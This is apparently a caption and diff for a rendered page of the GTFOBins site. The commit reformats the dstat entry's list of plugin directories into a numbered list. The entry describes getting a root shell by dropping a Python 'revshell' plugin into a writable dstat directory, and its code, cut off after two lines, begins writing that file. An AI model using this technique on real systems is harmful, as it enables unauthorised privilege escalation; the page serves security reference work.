

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/dstat.md, in a window 1280 px wide. Shown: the top 800 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

```diff
--- a/_gtfobins/dstat.md
+++ b/_gtfobins/dstat.md
@@ -4,7 +4,14 @@ functions:
     - description: |
         Spawn interactive root shell by loading a custom plugin.
 
-        Dstat allows you to run arbitrary python scripts loaded as "external plugins" if they are located in one of these directories: `~/.dstat/`, `(path of binary)/plugins/`, `/usr/share/dstat/` or `/usr/local/share/dstat/` (as stated in the dstat man page under "FILES"). Given that you have write access to one of these directories, you can drop there a script `dstat_revshell.py` and tell dstat to run it like this:
+        Dstat allows you to run arbitrary python scripts loaded as "external plugins" if they are located in one of the directories stated in the dstat man page under "FILES":
+
+        1. `~/.dstat/`
+        2. `(path of binary)/plugins/`
+        3. `/usr/share/dstat/`
+        4. `/usr/local/share/dstat/`
+
+        Given that you have write access to one of these directories, you can drop there a script `dstat_revshell.py` and tell dstat to run it like this:
       code: |
         cat >~/.dstat/dstat_revshell.py<<EOF
         #!/usr/bin/python3
```
